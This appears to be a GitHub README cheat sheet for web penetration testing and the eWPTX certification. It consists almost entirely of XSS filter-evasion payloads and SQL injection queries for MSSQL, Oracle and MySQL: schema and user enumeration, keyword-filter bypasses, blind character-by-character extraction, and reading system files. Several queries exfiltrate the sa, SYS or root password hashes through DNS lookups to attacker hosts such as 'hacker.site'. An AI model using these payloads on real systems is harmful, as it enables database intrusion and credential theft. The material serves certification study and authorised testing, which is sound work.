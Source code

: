 # eWPTX
List of useful commands for web penetration testing and eWPTX certification

## XSS
Possibile evasion methods

```
<script <script>>alert('l33t')</script>
```

```
<svg/onload=alert('l33t')>
```

```
<svg><script>alert&lpar;'l33t'&rpar;
```

```
<script>\u0061lert('l33t')</script>
```

```
<script>eval('\x61lert(\'l33t\')')</script>
```

```
<script>eval(8680439..toString(30))(983801..toString(36))</script>
```

## SQLi

### MSSQL

**List version name**

```
SELECT @@VERSION;-- -
```

**List database name**

```
SELECT name FROM master..sysdatabases;-- -
```
```
SELECT name FROM sysdatabases;-- -
```

**List the table of a specific database**

```
S = System Table
U = User Table
TT = Table Type
X = Extended Store Procedure
V = Views
```
```
SELECT name FROM mydatabasename..sysobjects WHERE xtype='U';-- -
```
```
SELECT table_name FROM mydatabasename.INFORMATION_SCHEMA.TABLES WHERE table_type='BASE TABLE';-- -
```

**List all tables and views of the current database**

```
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='BASE TABLE';-- -
```

**List the columns of a specific table**

```
SELECT column_name FROM mydatabasename.INFORMATION_SCHEMA.columns WHERE table_name = '';-- -
```

**List the columns of tables, views and clusters accessible to the current user**

```
SELECT column_name FROM SYS.ALL_TAB_COLUMNS;-- -
```
```
SELECT column_name FROM ALL_TAB_COLUMNS;-- -
```

**List the current user**

```
SELECT loginame FROM SYSPROCESSES WHERE spid = @@SPID;-- -
```

**List all users**

```
SELECT name FROM SYSLOGINS;-- -
```

**List users' privilegs**
The possibile roles are
```
sysadmin
serveradmin
dbcreator
setupadmin
bulkadmin
securityadmin
diskadmin
public
processadmin
```
```
SELECT IS_SRVROLEMEMBER('processadmin', 'myusername');-- -
```
If no username is supplied as an argument, it is the currentuser

**Provoke DNS request**

```
Two alternatives are XP_DIRTREE and XP_SUBDIRS
```
```
EXEC MASTER..XP_FILEEXIST 'C:\Windows\System32\drivers\etc\hosts';-- -
```
```
DECLARE @host varchar(1024);

SELECT @host=(SELECT TOP 1 MASTER.DBO.FN_VARBINTOHEXSTR(password_hash)
FROM SYS.SQL_LOGINS WHERE name='sa') + '.mycollaboratorserver';

EXEC('MASTER..XP_FILEEXIST "\\'+@host+'"');
```

### Oracle

**List database name**

```
SELECT version FROM v$instance;
```
```
SELECT banner FROM v$VERSION WHERE banner LIKE 'oracle%';
```
```
SELECT banner FROM GV$VERSION WHERE banner LIKE 'oracle%';
```

**List tablespace**

```
SELECT DEFAULT_TABLESPACE FROM USER_USERS;
```
```
SELECT DEFAULT_TABLESPACE FROM SYS.USER_USERS;
```

**List tables and columns accessible to the current user**

```
SELECT table_name, tablespace_name FROM SYS.all_tables;
```
```
SELECT table_name, tablespace_name FROM all_tables;
```

**List users**

```
SELECT user FROM DUAL;
```
```
SELECT username FROM USER_USERS;
```
```
SELECT username FROM ALL_USERS;
```

**List users' privileges**

```
SELECT grantee FROM DBA_ROLE_PRIVS;
```
```
SELECT username FROM USER_ROLE_PRIVS;
```

**List current users' privileges**

```
SELECT role FROM SESSION_ROLES;
```

**List overview of all the dada dictionary, tables and views available**

```
SELECT * FROM DICTIONARY;
```
```
SELECT * FROM DICT;
```

**Provoke DNS request **

```
SELECT UTIL_INADDR.GET_HOST_ADDRESS((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacker.site') FROM DUAL;-- -
```
```
SELECT UTIL_INADDR.GET_HOST_NAME((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.hacker.site') FROM DUAL;-- -
```

### MySQL

**List database name**

```
SELECT DATABASE();-- -
```

**List the table of a specific database**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '';-- -
```

**List the table of a specific database with limit and offset**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '' LIMIT 1 OFFSET N;-- -
```

**List the columns of a specific table and database**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '';-- -
```

**List the nth column of a specific table**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '' AND ORDINAL_POSITION = N;-- -
```

**Concat query elements when spaces are not allowed**

```
SELECT/**/DATABASE();-- -
```

**Concat query elements when spaces AND comments are not allowed***

```
(SELECT(group_concat(table_name))FROM(INFORMATION_SCHEMA.tables)WHERE(table_schema=database()));-- -
```

**Basic camel case filter evasion**

```
SeLEcT gROup_cOnCaT(TabLE_NamE) FroM InfOrmaTioN_SchEma.TabLeS WhERe tABle_scHEmA =lower('');-- -
```

**Basic evasion if WHERE statement is not allowed**

```
SELECT * FROM GROUP BY HAVING ID=1;-- -
```

**Filter evasion where SQL keywords are not allowed**

```
sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_nZEROFILLaZEROFILLmZEROFILLe fZEROFILLrZEROFILLoZEROFILLm iZEROFILLnZEROFILLfZEROFILLoZEROFILLrZEROFILLmZEROFILLaZEROFILLtZEROFILLiZEROFILLoZEROFILLn_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa.tZEROFILLaZEROFILLbZEROFILLlZEROFILLeZEROFILLs wZEROFILLhZEROFILLeZEROFILLrZEROFILLe tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa = '';-- -
```

**Letter by letter database enumeration**

```
a' RLIKE (SELECT (
	CASE WHEN(
		ORD( /* string to ASCII conversion /*
			SUBSTRING( /* string, starting index, ending index */
			(
				SELECT IFNULL(CAST(table_name AS NCHAR),0x20)
				FROM INFORMATION_SCHEMA.TABLES
				WHERE table_schema=0x696e666f726d6174696f6e5f736368656d61 LIMIT 2,1
			)
		,11,1)
	)>64 /* check if the ASCII value of a specified letter is bigger than a specified value */
)
THEN 0x61 ELSE 0x28 END))
```

**Read system files (Windows only)**

```
SELECT LOAD_FILE("C:\\Windows\\System32\\drivers\\etc\\hosts");-- -
```

**Provoke DNS request (Windows only)**

```
SELECT LOAD_FILE(CONCAT('\\\\', 'SELECT password FROM mysql.users WHERE user=\'root\'', '.mycollaboratorserver'));-- -
```

**Other tips**
* Encode query in base64
* Double-encode query in base64
* Use HEX conversion 

## XXE
coming soon
